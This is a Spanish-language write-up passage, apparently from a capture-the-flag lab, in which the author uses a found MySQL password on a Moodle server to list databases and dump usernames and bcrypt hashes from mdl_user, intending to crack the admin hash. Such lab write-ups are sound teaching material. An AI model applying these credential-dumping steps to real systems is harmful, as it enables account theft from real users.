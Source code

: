 Antes de conectarnos miro que usuarios hay en home y están:
``` 
ls /home
jamie
steve
```
Tenemos problemas al conectar al mysql-no encuentra el comando- porque no está dentro del PATH, añado mi path (de máquina local) a esta máquina:
```
export PATH=/root/.local/bin:/snap/bin:/usr/share/fonts:/usr/local/share/fonts:/usr/sandbox/:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games:/usr/share/games:/usr/local/sbin:/usr/sbin:/sbin:/opt/nvim-linux64/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```
Ahora si, podemos conectarnos y mirar las bases de datos:
```
mysql -umoodle -pPlaybookMaster2020 -e 'show databases'

mysql: [Warning] Using a password on the command line interface can be insecure.
Database
information_schema
moodle
mysql -umoodle -pPlaybookMaster2020 -e 'show tables' moodle
mysql: [Warning] Using a password on the command line interface can be insecure.
Tables_in_moodle
mdl_analytics_indicator_calc
mdl_analytics_models
mdl_analytics_models_log
Y más ...
```
La que me convence es mdl_user.
```
mysql -umoodle -pPlaybookMaster2020 -e 'describe mdl_user' moodle

mysql: [Warning] Using a password on the command line interface can be insecure.
Field	Type	Null	Key	Default	Extra
id	bigint	NO	PRI	NULL	auto_increment
auth	varchar(20)	NO	MUL	manual	
confirmed	tinyint(1)	NO	MUL	0	
policyagreed	tinyint(1)	NO		0	
deleted	tinyint(1)	NO	MUL	0	
suspended	tinyint(1)	NO		0	
mnethostid	bigint	NO	MUL	0	
username	varchar(100)	NO			
password	varchar(255)	NO		
Y más ...	
```
Sacaremos la data de los campos username y password:
```
mysql -umoodle -pPlaybookMaster2020 -e 'select username,password from mdl_user' moodle

mysql: [Warning] Using a password on the command line interface can be insecure.
username	password
guest	$2y$10$u8DkSWjhZnQhBk1a0g1ug.x79uhkx/sa7euU8TI4FX4TCaXK6uQk2
admin	$2y$10$3D/gznFHdpV6PXt1cLPhX.ViTgs87DCE5KqphQhGYR5GFbcl4qTiW
bell_oliver89	$2y$10$N0feGGafBvl.g6LNBKXPVOpkvs8y/axSPyXb46HiFP3C9c42dhvgK
orchid_sheila89	$2y$10$YMsy0e4x4vKq7HxMsDk.OehnmAcc8tFa0lzj5b1Zc8IhqZx03aryC
chard_ellzabeth89	$2y$10$D0Hu9XehYbTxNsf/uZrxXeRp/6pmT1/6A.Q2CZhbR26lCPtf68wUC
morris_jake89	$2y$10$UieCKjut2IMiglWqRCkSzerF.8AnR8NtOLFmDUcQa90lair7LndRy
heel_james89	$2y$10$sjk.jJKsfnLG4r5rYytMge4sJWj4ZY8xeWRIrepPJ8oWlynRc9Eim
Y más...
```
Voy a coger el hash del admin, si estuvieran también los de Jamie y Steve, los que se encuentran en el home, también los guardaría.
